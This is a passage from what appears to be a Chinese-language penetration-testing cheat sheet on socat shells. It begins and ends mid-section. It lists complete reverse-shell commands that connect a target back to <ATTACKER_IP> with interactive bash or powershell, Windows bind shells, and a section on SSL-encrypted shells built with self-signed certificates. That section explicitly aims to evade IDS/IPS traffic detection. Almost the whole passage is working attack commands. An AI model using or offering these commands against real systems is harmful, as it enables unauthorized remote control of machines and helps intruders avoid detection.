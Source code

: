        # tcp-listen: 创建TCP监听器。
        ```
    *   **目标执行 (连接并提供PTY):**
        ```bash
        socat tcp-connect:<ATTACKER_IP>:<PORT> exec:'bash -li',pty,stderr,sigint,setsid,sane
        # exec:'bash -li': 执行交互式登录Shell。
        # pty: 分配一个伪终端。
        # stderr: 重定向错误输出。
        # sigint: 传递Ctrl+C信号。
        # setsid: 在新会话中运行进程。
        # sane: 设置合理的终端模式。
        ```
    *   **Windows上的Socat:** Windows版本的Socat可能不如`nc`或PowerShell反弹稳定，但可以用于基本连接和Bind Shell。
        *   Windows反弹: `socat TCP:<ATTACKER_IP>:<PORT> EXEC:powershell.exe,pipes`
        *   Windows绑定: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

### 8. 加密Shell (Socat)
#### 概述
使用加密可以绕过某些基于流量特征检测的IDS/IPS。`socat` 支持SSL/TLS加密。
#### 方法
1.  **生成证书 (Attacker Machine)**
    *   创建自签名证书和密钥：
        ```bash
        openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 365 -out shell.crt
        # 合并为.pem文件：
        cat shell.key shell.crt > shell.pem
        ```
2.  **加密监听器 (Attacker Machine)**
    *   使用 `OPENSSL-LISTEN`，指定证书，并禁用验证（因为是自签名）。
    *   **反弹Shell监听:**
        ```bash
        socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
        # 结合TTY稳定化:
        socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 FILE:`tty`,raw,echo=0
        ```
    *   **绑定Shell监听 (在目标执行):**
        ```bash
        # Linux:
        socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:'bash -li',pty,stderr,sigint,setsid,sane
        # Windows:
        socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:powershell.exe,pipes
        ```
3.  **加密客户端 (Target Machine)**
    *   使用 `OPENSSL`, 连接到监听器，禁用验证。
    *   **连接反弹监听:**